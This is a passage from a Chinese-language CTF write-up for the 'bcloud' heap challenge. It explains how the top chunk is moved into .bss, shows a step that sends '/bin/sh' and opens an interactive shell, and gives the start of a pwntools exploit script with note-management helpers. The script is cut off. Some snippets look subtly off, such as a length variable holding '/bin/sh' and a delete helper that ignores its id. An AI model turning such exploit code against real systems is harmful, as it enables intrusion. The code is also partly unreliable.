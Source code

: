 **步骤五: 发送"/bin/sh\x00"**
```python
length = "/bin/sh\x00"

p.recvuntil("--->>")
p.sendline("1")
p.recvuntil("Input the length of the note content:\n")
p.sendline(str(length))
p.interactive()
```
### 相关问题
*改变`top chunk`至`.bss`是什么算的?*
> `0x804b0a0 - 8 - (leak + 0x48*3 -8) - 12`

&nbsp;&nbsp;&nbsp;&nbsp;**原因:** 咱们的目的是为了返回`0x804b0a0`, `top chunk`必须为`0x804b098`, 程序中还会为你申请的空间+4, 还要有8字节的`header`,所以是减12, 另外的就是单纯的算距离了.

### 完整EXP
```python
from pwn import *

p = process("./bcloud")
elf = ELF("./bcloud")
libc = ELF("./libc.so.6")
context.log_level = 'debug'

def welcome(name, org, host):
    p.recvuntil("name:\n")
    p.send(name)
    chunkfirst = u32(p.recvuntil("! Welcome")[-13:-9])
    log.info("chunkfirst: %s" % hex(chunkfirst))
    p.recvuntil("Org:\n")
    p.send(org)
    p.recvuntil("Host:\n")
    p.sendline(host)
    return chunkfirst

def new(length, content):
    p.recvuntil("--->>")
    p.sendline("1")
    p.recvuntil("Input the length of the note content:\n")
    p.sendline(str(length))
    p.recvuntil("Input the content:\n")
    p.send(content)

def show():
    p.recvuntil("--->>")
    p.sendline("2")

def edit(id, newcontent):
    p.recvuntil("--->>")
    p.sendline("3")
    p.recvuntil("id:\n")
    p.sendline(str(id))
    p.recvuntil("new content:\n")
    p.sendline(newcontent)

def delete(id):
    p.recvuntil("--->>")
    p.sendline("4")
    p.recvuntil("id:\n")
    p.sendline(str(0))

#part one
```